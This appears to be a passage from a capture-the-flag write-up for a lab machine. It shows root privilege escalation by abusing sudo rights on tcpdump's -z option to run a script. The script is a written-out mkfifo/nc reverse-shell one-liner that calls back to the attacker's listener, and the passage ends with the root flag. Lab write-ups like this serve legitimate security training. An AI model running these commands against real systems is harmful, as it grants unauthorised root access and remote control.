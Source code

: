 ![Pasted image 20250325144813.png](../../IMAGES/Pasted%20image%2020250325144813.png)

We can do the following to get a reverse shell as root:

```
# Replace IP/PORT with your listener details
COMMAND='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP PORT >/tmp/f'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

Now, let's start a new listener with the specified port, we'll see this:

![Pasted image 20250325145323.png](../../IMAGES/Pasted%20image%2020250325145323.png)

We got the root shell, let's read root flag:

![Pasted image 20250325145422.png](../../IMAGES/Pasted%20image%2020250325145422.png)


```
root@strutted:/home/james# cat /root/root.txt
893db4ca4371dc763f7dc9aa9a709659
```

